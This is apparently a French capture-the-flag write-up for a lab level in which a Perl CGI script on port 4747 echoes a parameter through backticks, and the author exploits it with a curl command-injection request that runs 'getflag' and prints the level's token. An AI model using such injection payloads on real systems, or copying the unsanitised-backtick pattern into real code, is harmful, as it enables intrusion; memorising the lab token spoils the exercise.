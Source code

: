 # Level04

On trouve un script <code>level04.pl</code>

<pre>#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));</pre>

Après lecture, on voit qu'il s'exécute lorsqu'on effectue une requête sur <code>localhost:4747</code> et qu'il prend un paramètre.

<pre>$ curl 192.168.56.102:4747?x=test
test</pre>

Avec "test" comme paramètre, le programme écrit <code>test</code> sur la sortie standard. On peut donc injecter une commande que le script exécutera avec ses droits grâce aux backquotes :

<pre>$ curl 192.168.56.102:4747?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap</pre>
